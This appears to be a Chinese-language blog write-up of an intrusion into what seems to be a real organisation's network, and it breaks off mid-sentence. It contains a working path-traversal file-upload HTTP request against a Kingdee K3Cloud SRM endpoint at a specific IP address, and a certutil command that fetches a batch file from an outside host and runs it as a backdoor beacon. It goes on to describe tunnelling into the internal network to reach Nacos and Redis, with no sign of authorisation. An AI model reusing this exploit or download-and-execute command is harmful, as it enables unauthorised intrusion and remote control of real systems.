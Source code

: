 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令

建立隧道，扫描内网


内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)


在nacos配置文件中，发现内网redis数据库。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250702003105.png)

## 重新搭建内网隧道
三天后，发现vshell失效，并且内网隧道搭建失败,具体原因如下
